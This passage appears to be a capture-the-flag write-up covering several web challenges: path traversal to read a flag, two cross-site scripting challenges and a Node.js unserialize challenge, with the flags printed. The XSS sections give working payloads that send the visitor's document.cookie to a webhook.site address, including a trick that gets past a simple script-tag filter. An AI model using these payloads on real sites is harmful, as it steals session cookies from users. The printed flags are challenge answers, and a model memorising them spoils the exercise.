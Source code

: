 so, just go to /oot?oot=../flag to get the flag

**flag**: maple{Pingu_s4yz_N00t_No0T}

---

## Color Me

pretty straight forward question, it allow you to load arbitray html code into the page. And admin will visit the page.

XSS scripts
```
<script src="https://ajax.googleapis.com/ajax/libs/jquery/3.5.1/jquery.min.js"></script><script>$.get("https://webhook.site/7b7b96e8-2831-41da-8997-b7c55b4f75ca?"+document.cookie);</script>
```

**flag**: maple{0ops_i_f0rgot_about_xss}

---

## Poem Me

similar to color me, the main difference is it filter out `<script>` and `</script>`

the solution is also simple, replace `<script>` with `<script nounce="a">`, `</script>` with `</script/>`

```
<script src="https://ajax.googleapis.com/ajax/libs/jquery/3.5.1/jquery.min.js"></script/><script a>$.get("https://webhook.site/7b7b96e8-2831-41da-8997-b7c55b4f75ca?"%2Bdocument.cookie);</script/>

```

**flag**: maple{why_m4ke_ur_0wn_5anitizers_wh3n_D0mpur1fy_ex1sts}

---

## Super Cereal

the main exploits here is it use unserialize

server.js
```
// get secret
app.get('/secret', function(req, res) {
  if (req.cookies.profile){
  const str = new Buffer(req.cookies.profile, 'base64').toString();
  const obj = nodeSerial.unserialize(str);
  if (obj.cereal){
    const cereal = escape(obj.cereal);
    res.render('pages/secret', {
    favcereal: cereal
    });
  }
} else {
  res.render('pages/secret', {
    favcereal: ""
    });
  }
});
```
